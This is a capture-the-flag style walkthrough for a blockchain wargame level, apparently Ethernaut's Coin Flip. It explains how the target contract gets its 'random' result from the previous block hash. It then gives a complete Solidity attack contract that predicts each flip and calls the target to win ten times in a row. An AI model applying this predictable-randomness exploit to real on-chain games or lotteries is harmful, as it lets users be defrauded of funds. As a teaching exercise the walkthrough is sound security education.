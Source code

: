 
Great job on reaching Level 4! You've come a long way in grasping important concepts. 👍

## The Challenge: Predicting 10 Correct Guesses

The challenge at this stage involves predicting 10 correct guesses in a row. Since we lack the ability to foresee the future, the key lies in identifying any loopholes in the system that can guide our decision-making.

## Understanding the Decision-Making Process

To improve our chances, it's essential to comprehend how the contract determines whether a statement is true or false before prompting the user to make a guess. By adopting the same methodology used by the contract, we can discern whether to guess true or false for each turn.

## Embracing the Random Number Concept

A fundamental concept emphasized in this level is the generation of random numbers. Understanding how to generate random numbers is crucial, and the complexity of achieving true randomness in the context of blockchain adds an extra layer of challenge.

### Random Number Generation Code:

    ```
        uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;




block,number and factor are the two variables which are getting used to generate the block numbers. Now, you can think if there are two transactions happening in a block, it will have the same block.number and we can benefit this. Factor is anyways constant. 

Now you know what we need to do, open REMIX, create a new contract and paste the below 
code.

    ```
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    import "./coin.sol";
    
    contract coinattack 
    {
        CoinFlip coinFlip1 = CoinFlip(0x269a3e1a18715D62068b8c9B939Bfdeb5D6142c2);
    
        uint256 public consecutiveWins = 0;
        uint256 lastHash;
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
        function triggerWin() public returns(bool)
        {
            uint256 blockValue = uint256(blockhash(block.number - 1));
    
            if (lastHash == blockValue) {
                return false;
            }
    
            lastHash = blockValue;
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;
    
            coinFlip1.flip(side);
            consecutiveWins++;
    
            return true;
        }
    }
    
 # Contract Deployment and Verification

## Compilation and Deployment

After successfully compiling the contract, proceed with its deployment. Once deployed, you can call the designated function to trigger the sequence and check the value of the `consecutiveWins` variable.

## Verification Process

To ensure accuracy and gain a deeper understanding of the process, manually call the function 10 times and verify the outcome. Although a loop could be used, this step-by-step approach provides a clearer illustration of the underlying flow.

### Step-by-Step Verification:

1. **Call Function:** Manually call the designated function.
2. **Check `consecutiveWins`:** After triggering the function, inspect the value of the `consecutiveWins` variable.
3. **Repeat:** Repeat this process a total of 10 times.

## Final Confirmation

Once you observe that the `consecutiveWins` variable has reached 10, proceed to "Submit Instance." Congratulations on successfully completing this stage!

Feel free to explore the intricacies of the contract's behavior and gain a hands-on understanding of how the consecutive wins variable evolves with each function call. Best of luck! 🚀   
    
    
    
    
    
    
    
    











